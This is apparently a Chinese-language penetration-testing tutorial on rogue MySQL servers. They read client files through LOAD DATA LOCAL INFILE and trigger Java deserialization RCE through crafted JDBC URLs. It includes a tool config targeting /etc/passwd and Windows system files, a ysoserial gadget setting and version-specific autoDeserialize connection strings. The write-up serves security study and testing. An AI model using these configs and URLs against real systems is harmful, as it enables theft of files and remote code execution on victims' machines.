

## Fake Mysql Server 读取客户端数据

### 原理

攻击者搭建一个伪造的mysql服务器，当有用户去连接上这个伪造的服务器时，攻击者就可以任意读取受害者的文件内容，主要是因为LOAD DATA INFILE这个语法，作用是读取一个文件的内容并且放到一个表中。

这个问题主要是出在`LOAD DATA INFILE`这个语法上，这个语法主要是用于读取一个文件的内容并且放到一个表中。通常有两种用法，分别是：

```sql
load data infile "/data/data.csv" into table TestTable;
load data local infile "/home/data.csv" into table TestTable;
```

一个是读服务器本地上的文件，另一个是读client客户端的文件。

这次要利用的也就是`LOAD DATA LOCAL INFILE`这种形式

### 漏洞利用

[FakeMySQL Server](https://github.com/allyshka/Rogue-MySql-Server)

客户端读取哪个文件其实并不是自己说了算的，是服务端说了算的，形象一点的说就是下面这个样子：

- 客户端：hi~我将把我的data.csv文件给你插入到test表中！
- 服务端：OK，读取你本地data.csv文件并发给我！
- 客户端：这是文件内容：balabal！

正常情况下，这个流程不会有什么问题，但是如果我们制作了恶意的客户端，并且回复服务端任意一个我们想要获取的文件，那么情况就不一样了

- 客户端：hi~我将把我的data.csv文件给你插入到test表中！
- 服务端：OK，读取你本地的`/etc/passwd`文件并发给我！
- 客户端：这是文件内容：balabal（`/etc/passwd`文件的内容）！

伪造的服务端可以在任何时候回复一个file-transfer请求，不一定非要是在`LOAD DATA LOCAL`的时候。这里有一点要说明的是，如果想要利用此特性，客户端必须具有**`CLIENT_LOCAL_FILES`**属性

修改filelist里的值即可


```shell
python2 rogue_mysql_server.py
```

启动之后即可使用客户端去连接，连接之后则会将数据保存在`mysql.log`中


## JDBC 连接恶意MySQL服务导致反序列化RCE

利用需要使用[MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)，但是需要注意的是该代码是由协程编写，由于是用的比较旧的语法糖，需要在`python3.8`以下使用`py3.8`及以上则需要更换`async/await 语法糖`

在此基础上，修改`config.json`，其中yso可以不用填

这里我使用`Jdk8u181+cc3.1.jar+cc5.ser`来完成此次测试

```json
{
    "config":{
        "ysoserialPath":"ysoserial-master-SNAPSHOT.jar", //ysoserial.jar包的路径，将其放置在项目根目录下即可
        "javaBinPath":"/Library/Java/JavaVirtualMachines/jdk1.8.0_181.jdk/Contents/Home/bin/java", // 执行ysoserial的Java路径，主要针对多版本Java环境，如果没有多版本，写java即可
        "fileOutputDir":"./fileOutput/",
        "displayFileContentOnScreen":true,
        "saveToFile":true
    },
    "fileread":{
        "win_ini":"c:\\windows\\win.ini",
        "win_hosts":"c:\\windows\\system32\\drivers\\etc\\hosts",
        "win":"c:\\windows\\",
        "linux_passwd":"/etc/passwd",
        "linux_hosts":"/etc/hosts",
        "index_php":"index.php",
        "ssrf":"https://www.baidu.com/",
        "__defaultFiles":["/etc/hosts","c:\\windows\\system32\\drivers\\etc\\hosts"]
    },
    "yso":{
        "Jdk8u181":["CommonsCollections5","open -a Calculator.app"] // key为用户名(可随意写)，value分别为执行ysoserial的参数，如执行命令为java -jar ysoserial.jar value[0] value[1]
    }
}
```

### 8.0.12

针对`8.0.12` payload需要使用`ServerStatusDiffInterceptor`触发

```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=Jdk8u181
```

```java
String Driver = "com.mysql.cj.jdbc.Driver";
String user = "Jdk8u181";
String password = "xxxx";
String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";
Class.forName(Driver);//1.加载启动
Connection conn = (Connection) DriverManager.getConnection(url, user, password);
```


### 5.1.29

针对`5.1.29` payload使用`ServerStatusDiffInterceptor`触发

```java
String driver = "com.mysql.jdbc.Driver";
String user = "Jdk8u181";
String password = "xxxx";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor";
Class.forName(driver);
Connection conn = (Connection) DriverManager.getConnection(DB_URL,user,password);
```


使用`detectCustomCollations`触发

```java
String driver = "com.mysql.jdbc.Driver";
String user = "Jdk8u181";
String password = "xxxx";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true";
Class.forName(driver);
Connection conn = (Connection) DriverManager.getConnection(DB_URL,user,password);
```


### 5.1.28

针对`5.1.28` payload使用`ServerStatusDiffInterceptor`触发

```java
String driver = "com.mysql.jdbc.Driver";
String user = "Jdk8u181";
String password = "xxxx";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor";
Class.forName(driver);
Connection conn = (Connection) DriverManager.getConnection(DB_URL,user,password);
```


针对`5.1.28` payload使用`detectCustomCollations`触发

```java
String driver = "com.mysql.jdbc.Driver";
String user = "abc";
String password = "xxxx";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true";
Class.forName(driver);
Connection conn = (Connection) DriverManager.getConnection(DB_URL,user,password);
```


### 速通

#### ServerStatusDiffInterceptor触发

- **8.x:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor`
- **6.x(属性名不同):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor`
- **5.1.11及以上的5.x版本（包名没有了cj）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor`
- **5.1.10及以下的5.1.X版本：** 同上，但是需要连接后执行查询。
- **5.0.x:** 还没有`ServerStatusDiffInterceptor`这个东西

#### detectCustomCollations触发

- **5.1.41及以上:** 不可用
- **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true`
- **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true`
- **5.1.18以下的5.1.x版本：** 不可用
- **5.0.x版本不可用**

### 踩坑指南

1. [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)缺省修改config.json之后需要及时重启服务，只有每次启动才能重新读取`config.json`


2. 如果不用缺省的`config.json`中的`yso`,需要针对user进行改变，而不是作者提供的`yso_JRE8u20_calc`,从代码中可以看到通过对username以`_`进行分割，username中需要携带`yso_type(payload)`，`yso_command(执行命令)`，应该是`yso_CommonsCollections5_open -a Calculator.app`,使用yso_开头的用户名需要针对`config.json`将`yso`的字典删除





### 分析

这里以8.0.12来分析


触发`queryInterceptors`则需要触发`SQL Query`，而在`getConnection`过程中，会触发`SET NAMES utf`、`set autocommit=1`一类的请求，所以会触发我们所配置的`queryInterceptors`


当Fake Server收到了`SHOW SESSION STATUS`的指令 则会向JDBC发送反序列化数据


mappedValues保存从FakeServer中发送来的数据，只要保证第1或第2字段为BLOB且存存储了我们的序列化数据，即可触发


当MySQL字段类型为BLOB时，会对数据进行反序列化，确定字段为BLOB类型除了协议报文中列字段类型为BLOB以外，还需要FLAGS大于128、来源表不为空，否则会被当做Text


## 用途

1. `FakeMysqlServer`可以用作蜜罐获取客户端数据
2. 在渗透测试中，如果有管理后端可以配置mysql连接，可以尝试将服务端任意文件读取出来
3. 在Java的管理后台中，配置JDBC连接数据库URL可控且存在相应的CC组建，即可直接RCE

## 参考链接

https://lightless.me/archives/read-mysql-client-file.html

https://github.com/fnmsd/MySQL_Fake_Server

https://www.anquanke.com/post/id/203086

https://xz.aliyun.com/t/10599